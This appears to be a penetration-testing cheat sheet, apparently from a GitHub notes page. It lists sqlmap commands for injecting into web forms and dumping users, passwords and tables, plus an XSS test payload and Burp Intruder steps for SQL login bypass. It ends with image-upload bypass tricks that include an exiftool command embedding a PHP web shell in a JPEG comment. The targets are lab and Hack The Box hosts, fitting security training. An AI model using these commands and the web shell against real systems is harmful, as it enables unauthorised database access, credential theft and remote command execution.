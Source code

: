 ```
# References
https://www.exploit-db.com/papers/17934
https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet/

# Post
./sqlmap.py -r search-test.txt -p tfUPass

# Get
sqlmap -u "http://10.11.1.111/index.php?id=1" --dbms=mysql

# Crawl
sqlmap -u http://10.11.1.111 --dbms=mysql --crawl=3

# Full auto - THE GOOD ONE
sqlmap -u 'http://10.11.1.111:1337/978345210/index.php' --forms --dbs --risk=3 --level=5 --threads=4 --batch
# Columns 
sqlmap -u 'http://admin.cronos.htb/index.php' --forms --dbms=MySQL --risk=3 --level=5 --threads=4 --batch --columns -T users -D admin
# Values
sqlmap -u 'http://admin.cronos.htb/index.php' --forms --dbms=MySQL --risk=3 --level=5 --threads=4 --batch --dump -T users -D admin

sqlmap -o -u "http://10.11.1.111:1337/978345210/index.php" --data="username=admin&password=pass&submit=+Login+" --method=POST --level=3 --threads=10 --dbms=MySQL --users --passwords
```
### XSS
```
<script>alert("XSS")</script>
```

### Sql-login-bypass

- Open Burp-suite
- Make and intercept a request
- Send to intruder
- Cluster attack.
- Paste in sqlibypass-list (https://bobloblaw.gitbooks.io/security/content/sql-injections.html)
- Attack
- Check for response length variation

### Bypass image upload restrictions

```
- Change extension: .pHp3 or pHp3.jpg
- Modify mimetype: Content-type: image/jpeg
- Bypass getimagesize(): exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' file.jpg
- Add gif header: GIF89a;
- All at the same time.
```
